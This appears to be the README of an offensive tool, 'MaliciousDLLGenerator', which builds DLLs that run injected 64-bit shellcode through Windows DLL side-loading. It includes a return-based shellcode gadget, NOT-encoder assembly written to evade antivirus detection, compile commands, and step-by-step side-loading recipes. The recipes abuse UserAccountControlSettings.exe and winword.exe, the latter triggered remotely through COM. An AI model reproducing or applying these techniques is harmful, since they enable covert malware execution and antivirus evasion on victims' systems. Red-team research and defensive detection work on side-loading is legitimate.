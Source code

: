 # MaliciousDLLGenerator

DLL Generator for side loading attack

### Currently only support 64 bits shellcode

# Usage

```
$ python gen-dll.py -h

MaliciousDLLGenerator - Mr.Un1k0d3r - RingZer0 Team
---------------------------------------------------


[-] Shellcode size is limited to 1024 bytes
usage: gen-dll.py [-h] -o OUTPUT -s SHELLCODE [-t TYPE]

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output filename
  -s SHELLCODE, --shellcode SHELLCODE
                        Raw shellcode file path
  -t TYPE, --type TYPE  DLL type (default,oart)
```

# Shellcode gadget

Instead of using the standard shellcode calling structure

```
char shellcode[] = {};
int(*execute)(void);
execute = (int(*)())shellcode;
execute();
```

Which result in the following assembly code

```
call rax
```

The DLL is mimicking a standard function return by using the following code

```
        CHAR payload[] = "";
        asm volatile ("mov %%rax, %0\n\t"
                     "push %%rax\n\t"
                     "ret"
                     :
                     : "r" (payload));
```

Which result in following assembly code

```
mov rax, rsp
push rax
ret
```

# Compiling from source using GCC

```
C:\> x86_64-w64-mingw32-g++.exe -Wall -DBUILD_DLL -c maindll.cpp -o maindll.o
C:\> x86_64-w64-mingw32-g++.exe -shared -Wl,--dll maindll.o -o yourdll.dll -s 
```

# Compiling from ASM

64 bits

```
$ nasm -felf64 encoder-64.asm -o encoder-64.o
$ ld -N encoder-64.o -o encoder-64
```

32 bits

```
$ nasm -felf32 encoder-32.asm -o encoder-32.o
$ ld -N -melf_i386 encoder-32.o -o encoder-32
```

# Obfuscation shellcode

The DLL encode the shellcode using a simple NOT encoder to avoid AV detection.

# 64 bits NOT encoder source

```
_start:
        call $ + 5
        pop rbx
        xor rax, rax
        mov rcx, rax
        mov cl, 128
        add rbx, 16
_loop:
        not QWORD [rbx + rcx * 8]
        loop _loop
        add rbx, 8
        push rbx
        ret
```

# 32 bits NOT encoder source

```
_start:
        call $ + 5
        pop ebx
        xor eax, eax
        mov ecx, eax
        mov cx, 256
        add ebx, 18
_loop:
        not DWORD [ebx + ecx * 4]
        loop _loop
        add ebx, 4
        push ebx
        ret
```

# Attack examples

Using windows binaries

```
copy C:\windows\system32\UserAccountControlSettings.exe to a writable location
add the malicious dll in the same folder and rename it to cryptbase.dll
```

```
copy C:\Program Files (x86)\Microsoft Office\root\Office16\winword.exe to a writable location
add the malicious dll (use the oart switch) in the same folder and rename it to oart.dll

it can be trigged remotely using COM object. Winword can be started without GUI using the following command:
C:\yourpath\winword.exe /Automation -Embedding
```

# Credit
Mr.Un1k0d3r RingZer0 Team
